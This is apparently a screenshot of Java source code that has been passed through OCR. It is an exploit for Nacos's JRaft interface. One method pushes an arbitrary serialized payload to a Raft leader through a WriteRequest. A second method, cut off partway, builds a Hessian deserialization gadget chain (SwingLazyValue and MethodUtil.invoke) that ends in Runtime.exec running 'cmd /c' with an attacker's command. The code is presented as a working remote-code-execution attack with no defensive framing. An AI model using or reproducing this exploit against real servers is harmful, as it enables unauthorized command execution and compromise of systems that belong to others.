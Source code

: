 java

```
package org.example;

import com.alibaba.nacos.consistency.entity.WriteRequest;
import com.alipay.sofa.jraft.RouteTable;
import com.alipay.sofa.jraft.conf.Configuration;
import com.alipay.sofa.jraft.entity.PeerId;
import com.alipay.sofa.jraft.option.CliOptions;
import com.alipay.sofa.jraft.rpc.impl.MarshallerHelper;
import com.alipay.sofa.jraft.rpc.impl.cli.CliClientServiceImpl;
import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.caucho.hessian.io.SerializerFactory;
import com.google.protobuf.ByteString;
import sun.reflect.misc.MethodUtil;
import sun.swing.SwingLazyValue;

import javax.swing.*;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.concurrent.ConcurrentHashMap;

public class Main {

    public static void send(String addr, byte[] payload) throws Exception {
        Configuration conf = new Configuration();
        conf.parse(addr);
        RouteTable.getInstance().updateConfiguration("nacos", conf);
        CliClientServiceImpl cliClientService = new CliClientServiceImpl();
        cliClientService.init(new CliOptions());
        RouteTable.getInstance().refreshLeader(cliClientService, "nacos", 1000).isOk();
        PeerId leader = PeerId.parsePeer(addr);
        Field parserClasses = cliClientService.getRpcClient().getClass().getDeclaredField("parserClasses");
        parserClasses.setAccessible(true);
        ConcurrentHashMap map = (ConcurrentHashMap) parserClasses.get(cliClientService.getRpcClient());
        map.put("com.alibaba.nacos.consistency.entity.WriteRequest", WriteRequest.getDefaultInstance());
        MarshallerHelper.registerRespInstance(WriteRequest.class.getName(), WriteRequest.getDefaultInstance());
        final WriteRequest writeRequest = WriteRequest.newBuilder().setGroup("naming_persistent_service_v2").setData(ByteString.copyFrom(payload)).build();
        Object o = cliClientService.getRpcClient().invokeSync(leader.getEndpoint(), writeRequest, 5000);
    }

    private static byte[] build(String cmd) throws Exception {
        String[] command = {"cmd", "/c", cmd};
        Method invoke = MethodUtil.class.getMethod("invoke", Method.class, Object.class, Object[].class);
        Method exec = Runtime.class.getMethod("exec", String[].class);
        SwingLazyValue swingLazyValue = new SwingLazyValue("sun.reflect.misc.MethodUtil", "invoke", new Object[]{invoke, new Object(), new Object[]{exec, Runtime.getRuntime(), new Object[]{command}}});
//        Object value = swingLazyValue.createValue(new UIDefaults());

```
